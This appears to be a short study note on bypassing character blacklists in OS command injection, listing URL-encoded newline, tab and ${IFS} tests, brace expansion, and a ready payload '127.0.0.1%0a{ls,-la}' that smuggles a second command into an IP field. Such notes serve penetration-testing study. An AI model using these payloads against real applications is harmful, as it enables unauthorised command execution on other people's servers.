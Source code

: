 +## Bypass Blacklisted Operators
One at a time, test characters to see if they are blacklisted.
- %0a       \n              success
- +         space            fail
- %09        tab            success
- ${IFS}   space and tab    success
```shell-session
127.0.0.1%0a
127.0.0.1%0a%09
127.0.0.1%0a${IFS}
```


**Brace Expansion
Automatically adds spaces between arguments wrapped between braces:
```bash
{ls,-la}
```
So, our payload can be:
```
127.0.0.1%0a{ls,-la}
```

Bypassing spaces: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space
